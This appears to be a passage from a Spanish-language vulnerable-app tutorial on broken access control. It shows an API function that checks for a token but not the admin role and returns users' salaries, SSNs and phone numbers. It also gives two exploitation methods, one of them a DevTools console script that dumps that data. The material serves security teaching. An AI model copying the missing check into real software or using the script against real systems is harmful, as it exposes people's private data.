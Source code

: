 ```javascript
// services/api.ts
export const getAllUsers = async (): Promise<User[]> => {
  await simulateNetworkDelay();
  
  const token = localStorage.getItem('token');
  if (!token) {
    throw createHttpError(401, 'Token requerido');
  }

  const decoded = decodeSimpleJWT(token);
  if (!decoded) {
    throw createHttpError(403, 'Token inválido');
  }

  // 🚨 FALLA: No verifica si es admin
  console.log(`🚨 VULNERABILITY EXPLOITED: User ${decoded.username} (role: ${decoded.role}) accessed admin user list`);

  // Retornar usuarios sin passwords pero con datos sensibles
  return usersDatabase.map(user => {
    const userWithoutPassword = { ...user };
    delete (userWithoutPassword as any).password;
    return userWithoutPassword;
  });
};
```

### 💥 **Formas de Explotación**

#### **Método 1: Acceso Directo a Panel Admin**
1. Login como usuario normal (`jaranguiz`)
2. Navegar directamente a `/admin` en el frontend
3. La interfaz se carga y muestra todos los usuarios con datos sensibles

#### **Método 2: Llamada Directa a la Función**
```javascript
// Ejecutar en DevTools Console
api.getAllUsers().then(users => {
  console.log("🚨 ACCESO NO AUTORIZADO A LISTA DE USUARIOS:");
  
  users.forEach(user => {
    console.log(`
👤 Usuario: ${user.username}
📧 Email: ${user.email}
🏢 Rol: ${user.role}
💰 Salario: $${user.profile?.salary?.toLocaleString()}
🆔 SSN: ${user.profile?.ssn}
📞 Teléfono: ${user.profile?.phone}
🏢 Departamento: ${user.profile?.department}
    `);
  });
}).catch(err => {
  console.log("❌ Error:", err.message);
});
```
